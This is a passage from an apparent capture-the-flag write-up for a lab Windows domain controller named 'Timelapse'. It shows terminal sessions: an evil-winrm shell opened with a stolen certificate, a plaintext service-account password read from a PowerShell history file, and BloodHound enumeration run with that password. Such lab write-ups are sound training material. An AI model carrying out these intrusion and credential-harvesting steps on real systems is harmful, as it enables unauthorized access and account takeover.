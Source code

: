 ![capture-10](capture-10.PNG)

With `evil_winrm`, we can connect via SSL. (Because winrm is on port 5896 = SSL)
```
┌──(tsunami㉿coffee)-[~/Documents/timelapse]
└─$ evil-winrm -c cert.pem -k key.cert  -i 10.129.161.13 -S        
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
![capture-11](capture-11.PNG)

## Root
Looking through the powershell history, we find a password for the `svc_deploy` account.
```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type C:\Users\legacyy\APPDATA\roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
![capture-12](capture-12.PNG)
Using bloodhound, we can see what this user can do.
```
$ bloodhound-python -c All -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d 'timelapse.htb' -ns 10.129.161.13
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: timelapse.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.timelapse.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.timelapse.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: dc01.timelapse.htb
INFO: Found 11 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc01.timelapse.htb
```